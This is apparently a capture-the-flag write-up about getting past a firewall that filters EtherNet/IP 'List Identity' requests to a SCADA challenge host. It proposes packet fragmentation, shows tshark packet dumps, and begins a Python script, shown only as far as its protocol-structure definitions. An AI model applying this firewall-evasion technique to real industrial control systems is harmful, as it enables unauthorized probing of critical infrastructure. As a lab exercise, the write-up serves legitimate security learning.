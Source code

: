 One way to bypass a firewall is by utilizing packet fragmentation. So if we split the "List Identity" request into fragments, it might pass a simple firewall rule. 

We will need to start by sending a "Register Session" request:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/No_Identity_For_You]
└─$ tshark -r capture.pcapng -Y "frame.number == 8" -V | tail -n 12
EtherNet/IP (Industrial Protocol), Session: 0x00000000, Register Session
    Encapsulation Header
        Command: Register Session (0x0065)
        Length: 4
        Session Handle: 0x00000000
        Status: Success (0x00000000)
        Sender Context: 0000000000000000
        Options: 0x00000000
    Command Specific Data
        Protocol Version: 1
        Option Flags: 0x0000
```

Then extract the session handle from the response, and send a "List Identity" request:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/No_Identity_For_You]
└─$ tshark -r capture.pcapng -Y "frame.number == 12" -V | tail -n 10
EtherNet/IP (Industrial Protocol), Session: 0x0E08357D, List Identity
    Encapsulation Header
        Command: List Identity (0x0063)
        Length: 0
        Session Handle: 0x0e08357d
        Status: Success (0x00000000)
        Max Response Delay: 0
        Sender Context: 000000000000
        Options: 0x00000000
```

The following script uses `construct` to represent the different structures:

```python
from construct import *
from pwn import *

HOSTNAME = "scada-enip-fw.chal.intentsummit.org"
PORT = 44818

BUFFER_SIZE = 128

# -- CIP Structures --

Command = FlagsEnum(Int16ul, ListIdentity = 0x0063, RegisterSession = 0x0065)

CipEncapsulationMessage = Struct(
    'command'        / Command,
    'length'         / Int16ul,
    'session_handle' / Int32ul,
    'status'         / Int32ul,
    'sender_context' / Bytes(8),
    'options'        / Int32ul,
    'data'           / Bytes(this.length)
)

RegisterSessionData = Struct(
    'protocol_version' / Int16ul,
    'option_flags'     / Int16ul
)

```